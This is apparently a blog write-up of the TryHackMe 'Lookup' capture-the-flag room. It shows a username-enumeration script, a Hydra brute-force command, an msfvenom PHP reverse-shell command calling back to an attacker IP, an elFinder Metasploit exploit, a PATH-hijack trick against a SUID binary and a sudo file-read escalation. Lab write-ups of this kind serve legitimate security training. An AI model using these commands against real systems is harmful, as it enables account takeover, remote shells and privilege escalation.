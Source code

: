 ```yaml
---
title: Lookup
date: 2024-12-10
categories: [TryHackMe, CTF]
tags: [tryhackme, ctf, hydra, metasploit, suid, sudo_permissions, script]     # TAG names should always be lowercase
comments: false
image: /assets/img/tryhackme/ctf/lookup/banner.png
---
```


> [Lookup](https://tryhackme.com/r/room/lookup) offers a treasure trove of learning opportunities for aspiring hackers. This intriguing machine showcases various real-world vulnerabilities, ranging from web application weaknesses to privilege escalation techniques. By exploring and exploiting these vulnerabilities, hackers can sharpen their skills and gain invaluable experience in ethical hacking. 
> 
> Through "Lookup," hackers can master the art of reconnaissance, scanning, and enumeration to uncover hidden services and subdomains. They will learn how to exploit web application vulnerabilities, such as command injection, and understand the significance of secure coding practices. The machine also challenges hackers to automate tasks, demonstrating the power of scripting in penetration testing.

## Information Gathering / Reconnaissance

First, we launch the nmap scan which shows us that a web server is running on **port 80** and a SSH server on **port 22** :

```bash
~ cat nmapAll.txt
Starting Nmap 7.93 ( https://nmap.org )
Nmap scan report for 10.10.97.9
Host is up (0.076s latency).
Not shown: 998 closed ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 445f26674b4a919b57a9559c84c2e04 (RSA)
|   256 a04bb4b177d2847fc2f8a3d643ad963a (ECDSA)
|   256 d33b47ea5b4dc41d103f68fabd6a0fb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://lookup.thm
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
```

After adding the DNS entry in the `/etc/hosts` file, we can access to it and land on a classic login page :

![login page](/assets/img/tryhackme/ctf/lookup/2.png)

When we try discovering directories, it doesn't come up with anything, also after trying a few basic SQL injections.

However, we can see the mention *"Wrong password"* after we try the `admin:admin` credentials (instead of *"Wrong username or password"*) so we know that the admin account exists.

![wrong password](/assets/img/tryhackme/ctf/lookup/3.png)

So we test once again for SQL injections with this command : 

```shell
sqlmap -u "http://lookup.thm" --data="username=admin&password=test" --risk=3 --level=5
```

But again and without much surprise, it doesn't work. So if I cannot use the admin account that I found, there must be another account that I could use instead.

With the help of chatGPT, we can create a python script to test for valid usernames :

```python
import requests

# Target URL and endpoint
url = "http://lookup.thm/login.php"  # Replace with the actual URL
username_list = "/usr/share/wordlists/seclists/Usernames/Names/names.txt"  # File containing a list of potential usernames

# Custom headers (if needed)
headers = { 
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari>
    }

# Unique error messages or response patterns
valid_response_indicator = "Wrong password"  # Adjust based on the observed response for valid usernames

def enumerate_usernames():
    with open(username_list, "r") as file:
        for username in file:
            username = username.strip()
            payload = {
                "username": username,
                "password": "invalidpassword"  # Use a wrong password to test the username
            }
            try:
                response = requests.post(url, data=payload)

                if valid_response_indicator in response.text:  # Adjust for error message or status
                    print(f"[+] Valid username found: {username}")
                elif "Wrong username" in response.text:
                    print(f"[-] Invalid username: {username}")
            except Exception as e:
                print(f"[!] Error testing {username}: {e}")

if __name__ == "__main__":
    enumerate_usernames()
```

After launching this script, we can see the **admin** username pop up (of course) but also another user named **jose** :

![admin user found](/assets/img/tryhackme/ctf/lookup/4.png "admin user is found")

![jose user found](/assets/img/tryhackme/ctf/lookup/5.png "jose user is found")

So we can start a simple bruteforce on it using **Hydra** and the **rockyou wordlist** :

```shell
hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.thm -V http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong password"
```

and it returns a valid password !
![jose password found](/assets/img/tryhackme/ctf/lookup/6.png)

We can now connect to it (again, you cannot reach the page if you don't add the new entry in the `/etc/hosts` file).
We land on this page with a bunch of *txt files* (there is nothing in the Trash tab) :

![files found](/assets/img/tryhackme/ctf/lookup/7.png)

In these different files, we can find what seems to be different credentials (for example jose's credentials in *thislogin.txt*) :

![jose credentials](/assets/img/tryhackme/ctf/lookup/8.png)

Then, looking at the *credentials.txt* we find this :

![think credentials](/assets/img/tryhackme/ctf/lookup/9.png)

We will try those credentials in the next step.

## Initial Access

This doesn't work on the web application. However, we can test it on the listening ssh server, but doesn't work either.
We can also see that we can upload files on it, so I try to upload a **php reverse shell** file that I crafted using **msfvenom**.

```shell
msfvenom -p php/reverse_php LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> -f raw > shell.php
```

The application is not accepting *.php* extensions so I change it but still cannot manage to trigger my netcat listener.

So, instead of continuing on this path, I search if there is any vulnerability for *ElFinder* and there are !

```shell
~ searchsploit elfinder
-----------------------------------------------------------------------------------------------------
 Exploit Title                                                              | Path
-----------------------------------------------------------------------------------------------------
 elFinder 2.1.47 - 'PHP connector' Command Injection                        | php/webapps/46481.py
 elFinder 2 - Remote Command Execution (via File Creation)                 | php/webapps/36925.py
 elFinder PHP Connector < 2.1.48 - 'exitfran' Command Injection (Metasploit)| php/remote/46539.rb
 elFinder Web file manager Version - 2.1.53 Remote Command Execution        | php/webapps/51864.txt
-----------------------------------------------------------------------------------------------------
```

I decide to use the **Metasploit** exploit and manage to get a Meterpreter session opened under the **www-data** account thanks to the *exiftran command injection vulnerability*.

![Metasploit](/assets/img/tryhackme/ctf/lookup/11.png)

In the `/home` folder, there is the **think** user's folder in which we can find the **user.txt** that I cannot access for the moment because of my low privileges.
Since I got a problem with my Meterpreter shell and couldn't switch to bash, I decided to write a *php reverse shell* in the `/tmp` folder.

![Php Reverse Shell](/assets/img/tryhackme/ctf/lookup/12.png)

I could execute through this command and gain a reverse shell :
```shell
execute -f /usr/bin/php -a "/tmp/shell.php"
```
![nc](/assets/img/tryhackme/ctf/lookup/13.png)

Now I can switch to the **think** user thanks to the **.txt file** we previously found with the credentials but... It doesn't work either...

Once again, we move onto another path and search for privilege escalation methods. So let's list the binaries with SUID permissions :

![SUID](/assets/img/tryhackme/ctf/lookup/14.png)

Except for the usual binaries we always find in this kind of output, there is **pwm**.
When I execute it to see what happens, I get this result :

![pwm](/assets/img/tryhackme/ctf/lookup/15.png)

So we can see that this binary (executed with root privileges) is using the **id** command in order to retrieve the *username user ID*. Hence, we can maybe trick it into finding **think**'s ID because it uses the **PATH variable**.
For this, we will create a file named *id* in `/tmp` and write this :

```bash
#!/bin/bash 
echo "uid=33(think) gid=33(www-data) groups=33(www-data)"
```

Then `chmod 777 /tmp/id` and modify the **PATH variable** to :
```shell
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

Now, if we execute the binary once again, it displays :

![password list](/assets/img/tryhackme/ctf/lookup/16.png)

We get a list of the passwords of the **think** user ! One of them must be the user's password (SPOILER : yes it is...).

Using what we found, we can connect to the machine with this user on SSH. Next, we can retrieve the **first flag** in his `/home` directory.

![first flag](/assets/img/tryhackme/ctf/lookup/17.png)

## Privilege Escalation

Once that we obtained an access to the *think* user account, we need to dig further and escalate our privileges to root in order to read the last flag.

The first thing I try to do is a simple `sudo -l` to see if there is any binary that I could use to evelate my privileges. The command's output states that I have **ALL** permissions on a binary called **look**.

Then, using [GTFOBins](https://gtfobins.github.io/), I learn that this binary is used to read files as a **superuser**, how interesting for us!
Thanks to the power of [GTFOBins](https://gtfobins.github.io/), we easily find the **root flag** :

 ![root flag](/assets/img/tryhackme/ctf/lookup/18.png)